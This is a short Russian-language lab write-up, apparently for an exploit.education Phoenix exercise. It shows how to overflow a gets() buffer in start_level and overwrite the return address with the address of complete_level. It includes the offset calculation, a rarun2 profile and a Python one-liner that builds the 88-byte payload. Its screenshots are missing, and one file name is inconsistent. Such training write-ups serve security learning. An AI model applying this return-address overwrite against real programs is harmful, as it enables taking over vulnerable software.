

Цель - изменить адрес возврата функции `start_level`\

Уязвимое место `gets(buffer);`\

Находим смещение в стеке до адреса возварата 

стек до вызова функции


стек после вызова функции

адрес возврата по адресу 0x...e618

стек после выделения локальных переменных 


адрес переменной `buffer`


Получается, что необходимо записать 0x618-0x5c0 мусорных байт + адрес функции `complete_level`\

адрес функции `complete_level`\


заполняем профиль profileSFo.rr2
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSFo
```

Заполняем файл inputfileSFo
```
python -c "print('A' * 88 + '\x1d\x06\x40\x00\x00\x00\x00\x00')" > inputfileSFo
```

И убираем байт \0a
```
truncate -s -1 inputfileSTh
```

Содрежимое файла


Победа \
